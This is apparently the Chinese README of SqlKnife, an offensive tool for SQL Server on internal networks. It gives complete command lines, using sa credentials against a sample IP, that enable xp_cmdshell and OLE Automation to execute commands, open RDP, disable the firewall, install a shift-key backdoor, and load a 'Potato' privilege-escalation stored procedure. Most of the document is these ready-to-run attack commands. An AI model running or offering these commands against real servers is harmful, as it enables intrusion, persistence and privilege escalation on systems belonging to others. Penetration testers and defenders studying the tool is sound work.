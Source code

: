 # SqlKnife

郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 0x01 介绍

作者：hl0rey

团队：0x727，未来一段时间将陆续开源工具，地址：https://github.com/0x727

定位：内网SQL Server数据库安全检测

语言：C++、C#

功能：在命令行下对SQL Server进行命令执行、提权等安全检测操作

## 0x02 安装

无其他额外依赖

## 0x03 效果展示

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

![](img/Snipaste_2021-08-03_10-46-08.png)

![Snipaste_2021-08-03_10-46-29](img/Snipaste_2021-08-03_10-46-29.png)

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

![Snipaste_2021-08-03_10-47-04](img/Snipaste_2021-08-03_10-47-04.png)

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

![Snipaste_2021-08-03_10-47-56](img/Snipaste_2021-08-03_10-47-56.png)


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

![Snipaste_2021-08-03_10-56-34](img/Snipaste_2021-08-03_10-56-34.png)

### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

![Snipaste_2021-08-03_11-36-43](img/Snipaste_2021-08-03_11-36-43.png)

![Snipaste_2021-08-03_11-36-57](img/Snipaste_2021-08-03_11-36-57.png)

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

![Snipaste_2021-08-03_11-42-58](img/Snipaste_2021-08-03_11-42-58.png)

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

![Snipaste_2021-08-03_11-45-54](img/Snipaste_2021-08-03_11-45-54.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### PotatoInSQL

将土豆提权(--dbup)作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

![Snipaste_2021-08-03_11-17-47](img/Snipaste_2021-08-03_11-17-47.png)

![Snipaste_2021-08-03_11-18-02](img/Snipaste_2021-08-03_11-18-02.png)



#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

![Snipaste_2021-08-03_11-28-46](img/Snipaste_2021-08-03_11-28-46.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### 启用/还原配置功能

![Snipaste_2021-08-03_11-29-35](img/Snipaste_2021-08-03_11-29-35.png)

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload

## 0x04 使用方法 

| 语法                                                         | 功能                                                        |
| :----------------------------------------------------------- | :---------------------------------------------------------- |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix | 启用xp_cmdshell，其他fix类型功能都是这个格式                |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami | 使用xp_cmdshell执行命令，其他命令执行功能也是这个格式       |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove | 禁用xp_cmdshell，其他remove类型功能也是这个格式             |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix | 恢复Ole Automation Procedures                               |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe | Ole Automation Procedures执行程序                           |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp | 开启RDP                                                     |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw | 关闭防火墙                                                  |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift | 劫持shift键                                                 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3 | 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami | 利用甜土豆执行命令                                          |

## 0x06 实现原理

使用windows ADO连接SQL server数据库无需其他额外依赖，使用C#编写SQL CLR利用payload。

## 0x07 新增功能

无

## 0x08 反馈


SqlKnife 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

* 在使用过程中出现任何问题，可以通过 issues 来反馈。
* Bug 的修复可以直接提交 Pull Request 到 dev 分支。
* 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
* 欢迎对说明文档做出改善，帮助更多的人使用SqlKnife。
* 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。

*提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。*
